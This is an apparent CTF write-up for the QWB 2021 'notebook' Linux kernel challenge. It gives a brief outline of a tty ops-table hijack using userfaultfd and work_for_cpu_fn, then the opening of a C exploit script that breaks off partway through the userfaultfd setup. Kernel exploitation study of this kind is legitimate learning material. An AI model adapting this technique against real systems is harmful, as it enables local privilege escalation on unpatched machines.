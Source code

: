 I didn't pay much time to review the details in the exploit script and only reproduce it by imitating so the explaination would be very limit.

1. The main idea is control a tty fd and modify the ops table.
2. We can use `work_for_cpu_fn` to run arbitrary function with our parameter
3. There is a little limit about `write`. The element would be changed before trigger `work_forcpu_fn`
4. In chaitin's script, they hijack ioctl and use `ioctl(233,233)` to correctly trigger `work_forcpu_fn` without modifying our parameters.


```c
//gcc ./fs/exp.c -masm=intel --static -o ./fs/exp
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <stdlib.h>
#include <sys/wait.h>
#include <sys/stat.h>
#include <stdint.h>
#include <pthread.h>
#include <sys/types.h>
#include <linux/userfaultfd.h>
#include <sys/syscall.h>
#include <poll.h>
#include <sys/mman.h>
#define PAGE_SIZE 0x1000
#define TTYMAGIC 0x100005401
void * hit ;
uint64_t u64(uint8_t *buf)
{
    uint64_t res = 0;
    for(int i =0 ; i < 8;i++)
    {
        res = res<<8;
        res+=(unsigned int)buf[7-i];
    }
    return res;
}
void Panic(char *s)
{
    printf("[!] Panic:");
    puts(s);
    exit(1);
}
typedef struct{
        size_t idx;
        size_t size;
        char * buf;
    }X;
int fp = 0 ; 
void RegisterUserfault(void *fault_page,void *handler)
{
    pthread_t thr;
    struct uffdio_api ua;
    struct uffdio_register ur;
    uint64_t uffd  = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);
    ua.api = UFFD_API;
    ua.features = 0;
    if (ioctl(uffd, UFFDIO_API, &ua) == -1)
        Panic("ioctl-UFFDIO_API");

```

[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://ctf-wiki.org/pwn/linux/kernel-mode/exploitation/userfaultfd/
[3]: https://github.com/n132/attachment/tree/main/QWB_2021_Qual/notebook